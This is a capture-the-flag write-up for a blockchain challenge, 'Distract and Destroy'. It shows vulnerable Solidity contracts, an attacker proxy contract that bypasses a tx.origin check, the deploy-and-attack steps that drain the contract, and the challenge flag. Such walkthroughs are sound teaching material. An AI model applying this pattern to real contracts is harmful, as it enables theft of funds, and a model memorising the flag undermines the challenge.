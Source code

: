 # Distract and Destroy

### CHALLENGE DESCRIPTION
**_After defeating her first monster, Alex stood frozen, staring up at another massive, hulking creature that loomed over her. She knew that this was a fight she couldn't win on her own. She turned to her guildmates, trying to come up with a plan. "We need to distract it," Alex said. "If we can get it off balance, we might be able to take it down." Her guildmates nodded, their eyes narrowed in determination. They quickly came up with a plan to lure the monster away from their position, using a combination of noise and movement to distract it. As they put their plan into action, Alex drew her sword and waited for her chance._**

## Solution

**STEP 1: Code reviewing**

There we have 2 Solidity files similar to `Survival of the Fittest` codes:

>**`Setup.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }

    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 1000;
    }

    function attack(uint256 _damage) external {
        if (aggro == address(0)) {
            aggro = msg.sender;
        }

        if (_isOffBalance() && aggro != msg.sender) {
            lifePoints -= _damage;
        } else {
            lifePoints -= 0;
        }
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _isOffBalance() private view returns (bool) {
        return tx.origin != msg.sender;
    }
}
```

Here you can see some differences from the `Survival of the Fittest` files, such as `_isOffBalance()` and `aggro`. To kill the enemy, we need to bypass these conditions.


**STEP 2: The Bypass**

Take a look to the `_isOffBalance()` function

```
function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender;
}
```

Let`s deploy a contract to avoid this.

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface ICreature {
    function attack(uint256 _damage) external;
}

contract Attacker {
    ICreature target;

    constructor(address _target) {
        target = ICreature(_target);
    }

    function attack(uint256 _damage) external {
        target.attack(_damage);
    }
}
```

We need to deploy it twice to distract enemy.

First deploy:

![image](https://github.com/luvranse/web3/assets/46570641/8094ec25-7c85-4e43-9ebf-96ddf53df1cf)

Second deploy:

![image](https://github.com/luvranse/web3/assets/46570641/80ce8c85-ee18-4b7d-80f4-a17646138850)

**STEP 3: The Battle**

Initiate an attack with one of our contracts. Distract the enemy.

![image](https://github.com/luvranse/web3/assets/46570641/b67668e1-8f2d-4894-b2d4-0289fa67f46a)

Then attack with another one. 

![image](https://github.com/luvranse/web3/assets/46570641/95349e4f-b63d-4c21-881e-cbd3ef07347e)

Let's try take a loot. 

![image](https://github.com/luvranse/web3/assets/46570641/ceeb051f-df34-4037-82b2-f2f2f13a352f)

Congratz! There is the flag!

![image](https://github.com/luvranse/web3/assets/46570641/f1a06966-e9fd-4dab-8799-a75c92da167f)

### FLAG

```
HTB{tx.0r1gin_c4n_74k3_d0wn_4_m0n5732}
```

